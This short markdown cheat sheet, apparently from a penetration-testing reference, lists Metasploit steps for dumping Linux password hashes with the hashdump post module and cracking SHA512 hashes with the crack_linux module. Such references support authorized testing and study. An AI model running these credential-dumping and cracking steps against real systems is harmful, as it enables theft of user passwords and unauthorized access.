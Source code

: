 
### Linux Credential Dumping

###### Dumping Linux Password Hashes
- `use post/linux/gather/hashdump` -- to gather hashdump
- for cracking password
	use auxiliary/analyze/crack_linux
	 set SHA512 true 
	 run
